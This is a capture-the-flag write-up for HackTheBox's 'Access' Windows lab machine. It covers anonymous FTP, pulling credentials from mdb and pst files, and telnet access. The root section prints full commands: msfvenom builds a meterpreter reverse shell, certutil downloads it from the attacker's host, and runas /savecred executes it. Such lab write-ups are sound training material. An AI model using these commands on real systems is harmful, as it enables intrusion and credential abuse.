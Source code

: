 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-03-02-access-hackthebox
tags:
- hackthebox
- windows
title: Access @ HackTheBox
---
```


In this short writeup I will show how I completed Access on [hackthebox.eu](https://www.hackthebox.eu), a quite easy windows box that involves parsing credentials from ms office files, converting mail formats and accessing saved windows credentials.

## User Flag

The initial scan shows the following results:

```
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst:
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

FTP can be accessed anonymously and allows to download 2 files, `Backups\backup.mdb` and `Engineer\Access Control.zip`. The zip file is protected with a password so the first thing I look at is the mdb file. There are some tools like mdb-tools that can parse so mdb format just fine but I decided that a quick string search with `strings -n12` might be enough:

```
...
admin
backup_admin
engineer
access4u@security
...
```

This looks like username, password or mail address. Since we just found potential passwords we try them on the archive and `access4u@security` finally allows to unpack it. From the archive the file `Access Control.pst` is obtained, which is a file format for mails used by Microsoft. With `readpst 'Access Control.pst' && cat 'Access Control.mbox` I convert it to the mbox format to make it readable and find another password inside:

```
...
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.
...
```

With these credentials it is possible to telnet into the box as user security and read the user flag.

```
C:\Users\security\Desktop>type user.txt
```

## Root Flag

Doing the usual enumeration I eventually check for stored credentials with `cmdkey /list` which shows that there are indeed stored ones for the administrator user:

```
C:\Users\security>cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

To get a root shell I generate a simple meterpreter reverse shell with `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.219 LPORT=5555 -f exe > xct.exe`, download it with certutil `certutil.exe -urlcache -split -f http://10.10.14.219:8000/xct.exe xct.exe` and execute it with runas `runas /user:administrator /savecred "xct.exe"`, which results in a root shell.